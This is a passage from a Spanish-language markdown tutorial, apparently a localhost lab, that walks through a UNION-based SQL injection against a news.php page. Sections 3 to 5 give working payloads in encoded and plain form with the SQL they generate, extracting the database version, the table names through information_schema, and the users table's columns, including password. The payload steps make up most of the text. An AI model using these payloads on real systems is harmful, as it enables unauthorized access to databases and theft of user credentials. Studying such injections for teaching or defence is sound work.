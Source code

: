### 3. Extracción de Información de la Base de Datos
**URL:** `http://localhost/news.php?id=1%20UNION%20SELECT%201,version(),database(),now()`

**URL sin codificar:** `http://localhost/news.php?id=1 UNION SELECT 1,version(),database(),now()`

**SQL Generada:**
```sql
SELECT id, title, body, datetime FROM blog WHERE id = 1 
UNION SELECT 1,version(),database(),now()
```

**Explicación:**
- `UNION` combina resultados de dos consultas
- Extrae información del sistema:
  - Versión de MySQL
  - Nombre de la base de datos actual
  - Fecha/hora actual

---

### 4. Enumeración de Tablas
**URL:** `http://localhost/news.php?id=1%20UNION%20SELECT%201,table_name,'Tabla%20encontrada',2%20FROM%20information_schema.tables%20WHERE%20table_schema=database()`

**URL sin codificar:** `http://localhost/news.php?id=1 UNION SELECT 1,table_name,'Tabla encontrada',2 FROM information_schema.tables WHERE table_schema=database()`

**SQL Generada:**
```sql
SELECT id, title, body, datetime FROM blog WHERE id = 1 
UNION SELECT 1,table_name,'Tabla encontrada',2 
FROM information_schema.tables WHERE table_schema=database()
```

**Explicación:**
- Usa `information_schema` (metadatos de MySQL)
- Lista todas las tablas de la base de datos actual
- **Resultado esperado:** Revela las tablas `blog` y `users`

---

### 5. Extracción de Estructura de Tablas
**URL:** `http://localhost/news.php?id=1%20UNION%20SELECT%201,column_name,data_type,table_name%20FROM%20information_schema.columns%20WHERE%20table_schema=database()`

**URL sin codificar:** `http://localhost/news.php?id=1 UNION SELECT 1,column_name,data_type,table_name FROM information_schema.columns WHERE table_schema=database()`

**SQL Generada:**
```sql
SELECT id, title, body, datetime FROM blog WHERE id = 1 
UNION SELECT 1,column_name,data_type,table_name 
FROM information_schema.columns WHERE table_schema=database()
```

**Explicación:**
- Extrae nombres de columnas y tipos de datos
- Revela la estructura completa de las tablas
- **Información obtenida:** Columnas de `users` (id, email, name, password)

---